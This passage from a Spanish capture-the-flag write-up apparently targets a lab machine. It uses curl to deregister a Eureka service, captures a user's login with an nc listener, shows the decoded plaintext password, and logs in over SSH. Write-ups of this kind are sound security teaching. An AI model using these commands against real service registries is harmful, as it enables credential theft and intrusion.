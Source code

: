 Eliminaremos el mircro-servicio original para asegurarnos que `USER-MANAGEMENT-SERVICE` realmente apunte hacia nuestro registro

~~~ bash
curl -X DELETE http://EurekaSrvr:0scarPWDisTheB3st@10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081
~~~

Para recibir la solicitud POST, basta con ponerse a la escucha por el puerto que usa el micro servicio `USER-MANAGEMENT-SERVICE`

~~~ bash
nc -lvnp 8081
listening on [any] 8081 ...
~~~

Al cabo de unos momentos, recibiremos la solicitud HTTP a nuestro servicio malicioso, donde el usuario `miranda.wise` se autentica enviando sus credenciales

~~~ bash
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.66] 36078
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=NTM1MTcxYWMtMzI4NC00YmIyLTg2OTAtYTk4ZjA2NDJlZDA3
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:42974"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.132:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=2n6AUVgbZReFob8I-cHkPuIdoZBr-U6sq5PHk-tt2TMm7nf-7EzjZ2EpVyaokIk5y-zQDoZ-jPFbwH-BmvWjo9sJvQQQ2xWc
~~~

Basta con decodificar la contraseña con una herramienta de `URL Decode`

~~~ bash
miranda-wise:IL!veT0Be&BeT0L0ve
~~~


## Shell as `miranda-wise`

Las credenciales de miranda nos permiten conectarnos por `ssh` a la máquina víctima

~~~ bash
ssh miranda-wise@10.10.11.66 
miranda-wise@10.10.11.66\'s password:  

Last login: Sun Aug 31 19:33:48 2025 from 10.10.14.132
miranda-wise@eureka:~$ 
~~~
